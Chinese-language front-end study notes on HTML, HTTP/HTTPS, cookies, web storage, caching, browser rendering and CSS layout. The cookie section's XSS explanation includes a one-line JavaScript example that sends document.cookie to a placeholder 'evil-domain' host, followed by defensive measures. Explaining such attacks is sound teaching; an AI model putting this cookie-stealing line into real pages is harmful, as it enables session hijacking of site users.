

## HTML

### 基本知识

告诉浏览器该用什么模式去加载该文档，如果省略的话会进入怪异模式（[Quirks](https://developer.mozilla.org/en-US/docs/Web/HTML/Quirks_Mode_and_Standards_Mode)）

HTML 5：

```html
<!DOCTYPE html> 
```

其它版本

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
```

### HTML5

- 画布 **canvas**
- 用于媒介回放的 **video** 和**audio** 元素
- WebSockt、WebStorage
- WebWorker：主线程创建 Worker 线程去执行来自网络上的脚本，[参考](https://www.ruanyifeng.com/blog/2018/07/web-worker.html)


### CDN

内容交付网络 (CDN) 是一组分布在不同地理位置的服务器，它将 Web 内容存放在更靠近用户的位置，从而加速 Web 内容的交付。全球各地的数据中心都使用缓存，这是一种临时存储文件副本的过程，让您可以通过距离您所在地点较近的服务器，更快速地使用支持上网的设备或浏览器访问互联网内容。[参考](https://www.akamai.com/zh/our-thinking/cdn/what-is-a-cdn)


## HTTP

**URI**：统一资源标示符，可以唯一标识一个资源

**URL**：统一资源定位符（Uniform Resoure Locator），是 URI 的子集，通过地址同样可以标识唯一一个资源

1. 浏览器中输入网址

2. 获取 IP 地址
   + 先查 hosts，看是否有记录
   + 没有就走 DNS，DNS 内部有一套缓存和查询机制
   
3. 建立 TCP 握手连接

    + 浏览器会与服务器建立多个 TCP 连接，访问同一个网站的不同标签页会共享这些 TCP 连接

4. 若协议是 https 则会做 TLS 握手

5. 服务器响应 html

    + TCP 是不断开的

        > HTTP/1.0 中 Header 的 Connection: keep-alive，很好用
        >
        > HTTP/1.1 把 keep-alive 写进标准，默认开启，除非请求中写明 Connection: close

6. 浏览器
   + 解析 HTML，CSS
   + 渲染页面
   + 解析执行 js 脚本


### 各个版本

https://zhuanlan.zhihu.com/p/359641555

在一个 TCP 中发起多个 HTTP 请求是可以的，但是请求时同步的，一个一个发送，如下图左


于是 HTTP/1.1 引入了 pipeline 机制：

> 一个支持持久连接的客户端可以在一个连接中发送多个请求（不需要等待任意请求的响应）
>
> 收到请求的服务器必须按照请求收到的顺序发送响应（响应和请求可以按照先后顺序进行对应，否则会乱）

Pipelining 这种设想看起来比较美好，但是在实践中会出现许多问题：

- 一些代理服务器不能正确的处理 HTTP Pipelining
- 正确的流水线实现是复杂的
- Head-of-line Blocking 连接头阻塞：服务器在处理首个请求时花费了大量时间，那么后面所有的请求都需要等着首个请求结束才能响应

所以现代浏览器默认是不开启 HTTP Pipelining 的，在 HTTP/1.1 时代，浏览器通过下面两点来提高页面加载效率：

+ 维持和服务器已经建立的 TCP 连接，在同一连接上顺序处理多个请求
+ 和服务器建立多个 TCP 连接（Chrome 最多允许对同一个 Host 建立六个 TCP 连接）

#### HTTP2 

提供了 Multiplexing （多路传输）：send off multiple requests on the same connection，不需要再开多个连接


上面协议解析中提到的 `stream id` 就是用作连接共享机制的。一个 **request** 对应一个 stream 并分配一个 id，这样一个连接上可以有多个 stream，每个 stream 的 frame 可以随机的混杂在一起，接收方可以根据 `stream id` 将 frame 再归属到各自不同的 **request** 里面

**将 HTTP 消息分解为独立的帧，交错发送，然后在另一端重新组装**是 HTTP 2 最重要的一项增强。

每个 stream 都可以设置又优先级（Priority）和依赖（Dependency）

https://www.zhihu.com/question/34074946/answer/108588042

https://cheapsslsecurity.com/p/http2-vs-http1/

https://hpbn.co/http2/

###  HTTPS


https 传输过程


TSL 四次握手：上图黄色部分

**第1次握手**

- 客户端向服务器发送一个随机数clientKey
- 客户端发送 SSL协议版本
- 客户端发送 可选的加密算法
- 客户端发送 可选的压缩算法

**第2次握手**

- 服务端向客户端发送 随机数server key
- 服务端向客户端发送 选择的压缩算法
- 服务端向客户端发送 选择的加密算法
- 服务端发送数字证书(包含公钥)

**第3次握手**

> 判断服务端的证书是否合法，合法才进行下去

- 客户端发送第三个随机数premaster key
- 使用3个key来生成会话用的对称密钥。
- 客户端通知编码变更：接下来会话都会加密。
- 客户端发送握手结束通知（一条前面所有内容的hash值，供服务端校验）

**第4次握手**

- 服务端接收到加密后的premaster key, 用私钥解密，用三个key计算出会话用的对称密钥。
- 通知编码变更
- 通知握手结束
- 发送hash值



### 状态码

|      | 类型                       | 说明                                     |
| ---- | -------------------------- | ---------------------------------------- |
| 1xx  | Information（信息状态码）  | 接受的请求正在处理                       |
| 200  | Success                    | 正常处理，没有 Bug，不意味着业务处理成功 |
| 3xx  | Redirection（重定向）      | 需要进行一些额外的操作来完成本次请求     |
| 4xx  | Client Error（客户端错误） | 服务端无法处理来自客户端的请求           |
| 5xx  | Server Error（服务端错误） | 服务端处理请求时出错了                   |

**101**：响应客户端的 [Upgrade (en-US)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Upgrade) 标头发送的，并且指示服务器也正在切换的协议，[参考](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Status/101)

```txt
GET /index.html HTTP/1.1
Host: www.example.com
Connection: upgrade
Upgrade: HTTP/2.0, SHTTP/1.3, IRC/6.9, RTA/x11
```

**301**: 地址 A 的资源不可访问了，重定向到网址 B，搜索引擎会抓取网址 B 的内容，保存 B 的网址。

**302**: 旧地址 A 的资源仍可访问，这个重定向只是临时从 A 跳转到 B，搜索引擎抓取 B 的内容，保存 A 的网址。

### Cookies

客户端可以通过 `document.cookie="user=kris"` 设置

> `document.cookie=` operation does not overwrite all cookies. It only sets the mentioned cookie `user`.

服务端可以通过在响应头部设置 set-cookie 字段来将信息（文本字段）存在用户的浏览器中


浏览器在向某 url 发送请求时，会**自动**将该 url 能访问的 cookie 的键值放入请求头部的 Cookie 字段中


#### 属性

Cookie 除了键值之外，还包含了一

+ Expires/Max-Age：该条 cookie 失效的时间
+ Domain：向该域名下的 url 发请求时携带该 cookie，通常只有创建该 cookie 的域名能访问它，子域名都不行。如果需要子域名能获取它，则需要显示的设置 `user=John; domain=site.com`，这样任意的 `xx.site.com` 都能获取 `user` cookie
+ Path：路径，如果设置为 `path=/admin`，那么该 cookie 对于 `/admin` 和 `/admin/xxx`都是可见的，但是对于 `/home` 不可，通常把路径设置为根路径，即`path=/`，该域名下所有 url 都 可见
+ Secure：只能在 HTTPS 下传输
+ HttpOnly：只能在访问所属 url 时被携带，不能通过 js 的 `document.cookie` 获得
+ SameSite：在向合法的 `domain/path` 的 url 发请求时，还需要再检查一下当前所访问的站点（浏览器导航栏的地址）来决定是否携带该 cookie。在新版本浏览器中默认值为 `Lax`，该字段有以下三个选项：
    + `None`：允许同站请求、跨站请求携带该 cookie，即在当前访问的 `a.com` 页面下向 `b.com` 的 url 发请求时，携带 `b.com` 设置的 cookie
    + `Strict`：浏览器将只在访问相同站点时发送 cookie
    + `Lax`：满足 `Strict` 或以下两个条件时可以携带该 cookie，[参考](https://javascript.info/cookie)
        1. 请求是安全的，即：只读不涉及修改数据的请求，GET 是安全的，而 POST 不是
        2. The operation performs a top-level navigation (changes URL in the browser address bar)。例如：点击链接，浏览器跳转到新页面后，可以携带新页面设置的 cookie（比如自动登录）


设置属性的方式：

```javascript
document.cookie = "user=John; path=/; expires=Tue, 19 Jan 2038 03:14:07 GMT"
```

#### 第三方 Cookie

当前访问的站点 `site.com` 向第三方站点请求资源时，第三方站点在返回正确资源的同时，在响应头部设置了 Cookie，该 Cookie 在 `site.com` 下不可见，只在 `ads.com` 下。如下图

<svg xmlns="http://www.w3.org/2000/svg" width="668" height="192" viewBox="0 0 668 192"><defs><style>@import url(https://fonts.googleapis.com/css?family=Open+Sans:bold,italic,bolditalic%7CPT+Mono);@font-face{font-family:'PT Mono';font-weight:700;font-style:normal;src:local('PT MonoBold'),url(/font/PTMonoBold.woff2) format('woff2'),url(/font/PTMonoBold.woff) format('woff'),url(/font/PTMonoBold.ttf) format('truetype')}</style></defs><g id="data-storage" fill="none" fill-rule="evenodd" stroke="none" stroke-width="1"><g id="cookie-third-party.svg"><path id="Rectangle-1" fill="#FBF2EC" stroke="#DBAF88" stroke-width="2" d="M38 48h282v99H38z"/><text id="&lt;img-src=&quot;https://ad" fill="#AF6E24" font-family="OpenSans-Regular, Open Sans" font-size="14" font-weight="normal"><tspan x="42" y="70">&lt;img src="https://ads.com/banner.png"&gt;</tspan></text><text id="site.com" fill="#AF6E24" font-family="OpenSans-Bold, Open Sans" font-size="14" font-weight="bold"><tspan x="149" y="36">site.com</tspan></text><path id="Rectangle-1-Copy" fill="#FBF2EC" stroke="#DBAF88" stroke-width="2" d="M505 48h140v99H505z"/><text id="ads.com" fill="#AF6E24" font-family="OpenSans-Bold, Open Sans" font-size="14" font-weight="bold"><tspan x="543" y="36">ads.com</tspan></text><path id="Line" fill="#C06334" fill-rule="nonzero" d="M321.643 64.375l.991.134 163.127 22.119.806-5.946L499.5 89.5l-14.814 5.055.806-5.945-163.126-22.12-.991-.133.268-1.982z"/><path id="Line-Copy" fill="#C06334" fill-rule="nonzero" d="M500.366 105.882l.252 1.984-.992.126-163.112 20.734.757 5.953L322.5 129.5l13.006-8.71.755 5.952 163.113-20.734.992-.126z"/><text id="GET-/banner.png" fill="#AF6E24" font-family="OpenSans-Regular, Open Sans" font-size="14" font-weight="normal" transform="rotate(7 416.568 65.382)"><tspan x="361.068" y="70.882">GET /banner.png</tspan></text><text id="Set-Cookie:-id=123" fill="#AF6E24" font-family="OpenSans-Regular, Open Sans" font-size="14" font-weight="normal" transform="rotate(-7 413.469 128.991)"><tspan x="352.969" y="134.491">Set-Cookie: id=123</tspan></text></g></g></svg>

当用户访问新站点 `other.com` 时，该站点依然引入了这个第三方站点的资源，此时会自动携带 `ads.com` 下的 cookie

<svg xmlns="http://www.w3.org/2000/svg" width="668" height="192" viewBox="0 0 668 192"><defs><style>@import url(https://fonts.googleapis.com/css?family=Open+Sans:bold,italic,bolditalic%7CPT+Mono);@font-face{font-family:'PT Mono';font-weight:700;font-style:normal;src:local('PT MonoBold'),url(/font/PTMonoBold.woff2) format('woff2'),url(/font/PTMonoBold.woff) format('woff'),url(/font/PTMonoBold.ttf) format('truetype')}</style></defs><g id="data-storage" fill="none" fill-rule="evenodd" stroke="none" stroke-width="1"><g id="cookie-third-party-3.svg"><path id="Rectangle-1" fill="#FBF2EC" stroke="#DBAF88" stroke-width="2" d="M38 48h282v99H38z"/><text id="&lt;img-src=&quot;https://ad" fill="#AF6E24" font-family="OpenSans-Regular, Open Sans" font-size="14" font-weight="normal"><tspan x="42" y="70">&lt;img src="https://ads.com/banner.png"&gt;</tspan></text><text id="other.com" fill="#AF6E24" font-family="OpenSans-Bold, Open Sans" font-size="14" font-weight="bold"><tspan x="144" y="36">other.com</tspan></text><path id="Rectangle-1-Copy" fill="#FBF2EC" stroke="#DBAF88" stroke-width="2" d="M505 48h140v99H505z"/><text id="ads.com" fill="#AF6E24" font-family="OpenSans-Bold, Open Sans" font-size="14" font-weight="bold"><tspan x="543" y="36">ads.com</tspan></text><path id="Line" fill="#C06334" fill-rule="nonzero" d="M321.643 67.375l.991.134 163.127 22.119.806-5.946L499.5 92.5l-14.814 5.055.806-5.945-163.126-22.12-.991-.133.268-1.982z"/><text id="GET-/banner.png" fill="#AF6E24" font-family="OpenSans-Regular, Open Sans" font-size="14" font-weight="normal" transform="rotate(7 416.568 68.382)"><tspan x="361.068" y="73.882">GET /banner.png</tspan></text><text id="cookie:-id=123" fill="#AF6E24" font-family="OpenSans-Regular, Open Sans" font-size="14" font-weight="normal" transform="rotate(7 410.08 93.2)"><tspan x="363.08" y="98.699">cookie: id=123</tspan></text><ellipse id="Oval-6" cx="176" cy="31.5" stroke="#C06334" stroke-width="2" rx="48" ry="13.5"/></g></g></svg>

即用户在不同网站之间的切换被  `ads.com` 所追踪，不同的浏览器对于第三方 Cookie 有不同的政策，用户也可以自己设置

如果页面中引入了第三方库，比如 `<script src="https://google-analytics.com/analytics.js">`，这个第三方库使用了 `document.cookie` 来设置了一个 cookie，这个 cookie 不算第三方 cookie

**If a script sets a cookie, then no matter where the script came from – the cookie belongs to the domain of the current webpage.**


#### 应用

本身的存储特性：一开始为了做一些客户端的存储，后来有了 WebStorage API 后，就不再用 cookie 作存储了

业务上：http 协议本身是无状态的，可以使用 cookie 的存储特性来做用户状态的管理（或者叫**鉴权**）。无论是哪种鉴权方式：服务端 session 或者将信息编码成 token，都可以用 cookie 来实现。


#### 攻击

**XSS 跨站点脚本**（Cross-site scripting）

攻击者通过某种方式向网页中注入恶意脚本（这个脚本可以是 js、CSS 或者其它可执行代码），当用户浏览网页时，嵌入的脚本就会执行，执行一些危险动作，比如读取 cookie，session，tokens，或者网站其他敏感的网站信息，对用户进行钓鱼欺诈等。[参考](https://www.cnblogs.com/54chensongxia/p/11643787.html)

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

常见的 XSS 攻击方式为：[参考](https://zhuanlan.zhihu.com/p/22500730)

1. 恶意用户可以提交内容
2. 提交的内容可以显示在另一个用户的页面上
3. 这些内容未经**过滤**，直接**运行**在另一个用户的页面上


**CSRF 跨站请求伪造**（Cross-site request forgery）

比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```html

```

当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。

通常，浏览器会对跨域 CORS 请求作出限制。 浏览器之所以要对跨域请求作出限制，是出于安全方面的考虑，因为跨域请求有可能被不法分子利用来发动 CSRF 攻击。


**防范措施**：

- 对用户输入进行过滤来阻止 XSS
- 任何敏感操作都需要确认
- 用于敏感信息的 Cookie 只能拥有较短的生命周期
- 敏感 Cookie 的 SameSite 设置为 `Strict` 或 `Lax`
- 更多方法可以查看[OWASP CSRF prevention cheat sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)。


### Web Storage

**sessionStorage**：`window.sessionStorage`

+ 打开多个标签页访问同一个 URL 也会为每一个标签页创建一个 `sessionStorage` ，相互独立；关闭标签页后，就会被删除。
+ 在同一个页面下，来自 http://a.com 脚本创建的 `sessionStorage` 和来自 https://a.com 脚本创建的 `sessionStorage` 相互独立

通常用于

+ 设置一些全局变量，比如当前展开的是哪个元素
+ 设置一些只想让用户看到一次的东西，比如活动的宣传海报

**localStorage**：`window.localStorage`

+ 持久储存，没有时间限制，除非手动清除

+ 可以在同一个域名下的不同窗口和标签页之间共享，可用于同域的跨页面通信

+ 可以监听 `localstorage` 发生更改这一事件

    ```javascript
    window.addEventListener('storage', () => {
      // When local storage changes, dump the list to the console.
      console.log(JSON.parse(window.localStorage.getItem('sampleList')));
    });
    ```

不同浏览器对 web storage 的实现有所不同，比如存储空间上限等，需要查阅资料


### IndexedDB

正如后缀 DB，这是一个数据库，当数据量很大的时候依然能保证不错的性能，例如快速的查找。

相关的 API 需要查阅资料

通常用于：

+ 用来缓存一些经常要访问，但是很少去修改的数据。可以减少向服务器发请求的次数
+ 保存一些大的文件，files/blobs
+ 将操作（草稿）离线保存。比如一个编辑器，在离线状态将用户的操作存在队列中，网络恢复后即可同步

> 通常搭配 Web Workers 使用


### GET vs POST

| [参考](https://www.w3schools.com/tags/ref_httpmethods.asp) | GET                                                          | POST                                                         |
| :--------------------------------------------------------- | :----------------------------------------------------------- | ------------------------------------------------------------ |
| BACK button/Reload                                         | Harmless                                                     | Data will be re-submitted (the browser should alert the user that the data are about to be re-submitted) |
| Bookmarked                                                 | Can be bookmarked                                            | Cannot be bookmarked                                         |
| **Cached**                                                 | Can be cached                                                | Not cached                                                   |
| Encoding type                                              | application/x-www-form-urlencoded                            | application/x-www-form-urlencoded or multipart/form-data. Use multipart encoding for binary data |
| **History**                                                | 整个 url 会被浏览器保存在历史记录中，里面的包含了参数        | 参数不放在 url 中，所以浏览器不会记录参数                    |
| data length                                                | The length of a URL is limited (maximum URL length is 2048 characters) | No restrictions                                              |
| data type                                                  | Only ASCII characters allowed                                | No restrictions. Binary data is also allowed                 |
| Security                                                   | GET is less secure compared to POST because data sent is part of the URL  Never use GET when sending passwords or other sensitive information! | POST is a little safer than GET because the parameters are not stored in browser history or in web server logs |
| Visibility                                                 | Data is visible to everyone in the URL                       | Data is not displayed in the URL                             |

在 HTTPS 中，建立连接时发送的 `ClientHello` 包中有域名信息，之后发送的 HTTP 请求都是加密后的数据，例如 `/path/?some=parameters&go=here` 等，都是安全的


### 缓存机制

https://www.jianshu.com/p/227cee9c8d15  

HTTP 缓存：当客户端向服务器请求资源时，会先抵达浏览器缓存，如果浏览器有“要请求资源”的副本，就可以直接从浏览器缓存中提取而不是从原始服务器中提取这个资源。

> 常见的 http 缓存只能缓存 GET 请求响应的资源，对于其他类型的响应则无能为力，所以后续说的请求缓存都是指GET请求。


强缓存：浏览器命中强缓存，就去检查相应的字段，如果缓存可用就不需要给服务器发请求。[参考](https://zhuanlan.zhihu.com/p/64635421)

+ 根据返回头中的 `Expires` 或者 `Cache-Control` 两个字段来控制的，都是表示资源的缓存有效时间。

协商缓存：发一次请求询问服务器缓存资源是否可用。检查文件的最近修改时间，或者文件的哈希


## 浏览器

https://www.html5rocks.com/en/tutorials/internals/howbrowserswork/#Event_loop

### 渲染过程

渲染引擎是**单线程**，除了网络请求之外，所有的活动都在这个线程进行。

1. 解析 HTML 生成 DOM 树

   > 解析过程会被 js 的加载执行阻塞，有时候 JS 会被 CSS 阻塞

   

   

2. 解析 CSS 生成 CSSOM 规则树

    > 这一过程依赖 DOM 树的结构，在 DOM 生成完成后才进行，在一个主线程里

3. 将 DOM 树与 CSSOM 合并在一起构建渲染树

    + 从 DOM 树根节点开始计算可见元素的样式信息
    + 忽略某些不可见的节点（例如脚本标记、元标记等）或通过 css 隐藏 `display: none` 的节点

    

4. **Reflow**：遍历渲染树计算页面布局：每个节点的位置大小等信息

5. **Repaint**：将渲染树每个节点绘制到屏幕


### 回流和重绘

回流（Reflow）：[可视化](https://www.youtube.com/watch?v=dndeRnzkJDU&t=27s)，根据渲染树计算页面布局的过程。如果一个操作改变了页面布局，那么就需要 Reflow，例如

+ `display: none`：将元素从渲染树中完全移除，需要重新布局
+ 增、删 DOM 节点，动画改变 DOM 节点的尺寸
+ 调整窗口大小

重绘：按照页面布局将元素绘制到屏幕上的过程

+ `visibility: hidden`：隐藏元素，但元素仍占据着布局空间，将其渲染成一个空框，不需要重新布局
+ 修改元素的颜色

**减少回流的方法**： 

1. 不要依次修改元素的多个样式属性，而是直接修改整个 class
2. 如需进行对 DOM 节点进行多次操作，先将其脱离文本流之后（装入 `documentFragment`），多次操作再加回来
3. 使用 VirtualDom
4. table 布局的渲染与普通 DOM 节点的操作相比，性能消耗更大，如果可以，尽量减少 table 布局的使用


### 阻塞问题

关于阻塞问题，通常的定义是：**CSS is called render-blocking whereas JavaScript is called parser-blocking** [链接](https://stackoverflow.com/questions/37759321/parser-blocking-vs-render-blocking/37759508)

**阻塞解析**（parser-blocking）：

+ 因为 js 可能会操作 DOM 元素，所以要等 js 执行完才继续构建 DOM

  另一方面，js 也可能操作元素的样式，所以如果在 `<script> ` 之前出现了 `<link rel="stylesheet">` ，那么大多数浏览器会等待样式加载完全后，再执行脚本，再解析 HTML。所以这种情况下 css 也阻塞了 HTML 解析。[参考](https://molily.de/domcontentloaded/)

  为此有些浏览器在解析 HTML 时如果被阻塞了，会试图预（强行）解析（[Speculative Parsing](https://developer.mozilla.org/en-US/docs/Glossary/speculative_parsing)）HTML，如果脚本执行完后没有修改 HTML，则一切好说，否则前功尽弃，重新解析 HTML

**阻塞渲染**（render-blocking）[参考](https://developers.google.com/web/fundamentals/performance/critical-rendering-path/render-blocking-css)

- CSS 被视为阻塞渲染的资源，需要 CSSOM，需要将它尽早、尽快地下载到客户端，以便缩短首次渲染的时间

  我们可以通过媒体类型和媒体查询将一些 CSS 资源标记为不阻塞渲染

  ```html
  <!-- 未提供任何媒体类型或查询，因此它适用于所有情况，也就是说，它始终会阻塞渲染 -->
  <link href="style.css" rel="stylesheet">
  
  <!-- 只在打印内容时适用---或许您想重新安排布局、更改字体等等，因此在网页首次加载时，该样式表不需要阻塞渲染 -->
  <link href="print.css" rel="stylesheet" media="print">
  
  <!-- 由浏览器执行的“媒体查询”，符合条件时，浏览器将阻塞渲染，直至样式表下载并处理完毕 -->
  <link href="other.css" rel="stylesheet" media="(min-width: 40em)">
  ```

  

+ 无论阻塞还是不阻塞，浏览器都会下载所有 CSS 资源


#### 解决方案（优化）

**异步加载 `<script>`**，[参考](https://javascript.info/script-async-defer)

+ **defer**：异步下载，下载完成后等待 HTML 解析完成后，才**按照出现的先后顺序**开始执行（严格按照顺序执行就允许了脚本之间存在依赖关系）。由于其中的函数也可能会改变 DOM 树，所以等这些脚本执行完毕后，才会触发 `DOMContentLoaded` 事件 

    ```html
    <p>...content before scripts...</p>
    
    <script>
      document.addEventListener('DOMContentLoaded', () => alert("DOM ready after defer!"));
    </script>
    
    <script defer src="https://javascript.info/article/script-async-defer/long.js"></script>
    <script defer src="https://javascript.info/article/script-async-defer/small.js"></script>
    
    <p>...content after scripts...</p>
    ```

+ **async**：异步下载，下载完成后打断 HTML 解析立即执行。有该标志意味着脚本是完全独立的，没有先后顺序，也不会跟 `DOMContentLoaded` 事件有先后关系。适用于独立的第三方库：例如广告、数据采集等

    ```html
    <!-- Google Analytics is usually added like this -->
    <script async src="https://google-analytics.com/analytics.js"></script>
    ```


**预加载 `preload`**，[参考](https://webspeedtools.com/async-vs-defer-vs-preload-vs-server-push)

浏览器提前在后台将资源下载下来，等到了要使用资源的地方，再应用或者执行资源内容

适用于那些不在 HTML 中直接出现，而是解析 CSS 或者运行 JS 的过程中才要用到的资源，比如：字体文件

```html
<link href="path/to/resource" rel="preload">
```


### HTML Lifecycle

HTML 的[生命周期事件](https://javascript.info/onload-ondomcontentloaded)：

- DOMContentLoaded：解析完主页面的 HTML，并且 DOM 树构建完毕，这一过程会被 `<script>` 标签阻塞，但是外部资源比如 ``，`iframe`，`<stylesheets>` 可能还没加载或者应用完

    ```javascript
    // 绑定在 document 上的事件
    document.addEventListener('DOMContentLoaded', () => {
        console.log('DOMContentLoaded')
        // 可以操作 DOM 元素，例如事件绑定
    });
    ```

- load：主页面用到的所有外部资源加载完毕，比如``，`iframe`，`<stylesheets>`

    ```javascript
    // 绑定在 window 上的事件
    window.onload = () => {
        log('window onload')
        // 获取元素布局信息
    };
    ```

- beforeunload：用户离开页面前

    ```javascript
    // 绑定在 window 上的事件
    window.onbeforeunload = function() {
      	return "There are unsaved changes. Leave now?";
      	// 询问用户是否保存了数据
    };
    ```

- unload：用户离开了页面

    ```javascript
    // 绑定在 window 上的事件
    window.addEventListener("unload", function() {
      	navigator.sendBeacon("/analytics", JSON.stringify(analyticsData));
        // 发送一些用户使用数据，哪怕离开了页面，也会在后台继续执行请求
        // 详见 https://developer.mozilla.org/en-US/docs/Web/API/Navigator/sendBeacon
    });
    ```

### BOM & DOM


>  window 包含 document，即 window.document


> 每个 iframe 可以视为一个新的 window，属于父 window


### 开发者工具


蓝线： `document.DOMContentLoaded` 

红线：`window.onload` event, It happens when the browser finished retrieving all the resources required by the main document

红线之后：loading of asynchronous and cached resources required by the main document and by other resources

**Painting happens while parsing the document**. Note that the initial paint occurs just before it continues parsing another part of the document. This process continues until it reaches the end of the document.


## CSS

### 盒模型 

https://segmentfault.com/a/1190000013069516

盒模型：包含了元素内容（content）、内边距（padding）、边框（border）、外边距（margin）几个要素


IE 盒模型：`box-sizing：border-box`  ，宽度 width = content + border + padding  

标准盒模型：`box-sizing：content-box`，宽度 width = content

元素高度计算方式一样，宽度的计算方式不同，如果在样式中指定相同的 width ，IE 盒模型的 content 会窄一些

### 外边框重叠


### BFC

**BFC(Block Formatting Context)**：块级格式化上下文。[参考](https://segmentfault.com/a/1190000013069516)

BFC 决定了元素如何对其内容进行定位，以及与其他元素的关系和相互作用。当设计到可视化布局的时候，BFC 提供了一个环境，HTML元素在这个环境中按照一定的规则进行布局。一个环境中的元素不会影响到其他环境中的布局。

BFC 的外边框就不会与其它元素重叠

**BFC的原理**

1. BFC元素垂直方向的边距会发生重叠。属于不同 BFC 外边距不会发生重叠
2. BFC的区域不会与浮动元素的布局重叠。
3. BFC元素是一个独立的容器，外面的元素不会影响里面的元素。里面的元素也不会影响外面的元素。
4. 计算BFC高度的时候，浮动元素也会参与计算（清除浮动，子元素浮动时父元素会坍塌）

**如何创建BFC**

1. `overflow: hidden`
2. float 的值不为 none；
3. position的值不为static或relative；
4. display属性为inline-blocks,table,table-cell,table-caption,flex,inline-flex;


水平垂直居中的方式（掌握三种） 

